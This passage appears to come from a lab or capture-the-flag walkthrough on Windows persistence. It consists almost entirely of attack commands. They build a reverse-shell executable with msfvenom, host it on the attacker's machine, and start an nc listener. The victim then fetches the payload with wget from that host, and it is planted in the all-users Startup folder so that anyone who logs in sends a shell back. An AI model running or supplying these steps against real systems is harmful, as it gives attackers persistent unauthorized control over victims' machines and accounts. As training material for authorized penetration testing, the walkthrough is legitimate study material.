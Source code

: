 ```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4450 -f exe -o revshell.exe
```

We will then copy our payload into the victim machine. You can spawn an `http.server` with Python3 and use wget on the victim machine to pull your file.

**Kali**

```
python3 -m http.server
```

**Kali #2**

```
nc -lvnp 4450
```

**Victim(powershell)**

```
wget http://$KALI:8000/revshell.exe -O revshell.exe
```

We then store the payload into the C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp folder to get a shell back for any user logging into the machine/

**Victim(powershell)**

```
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open).
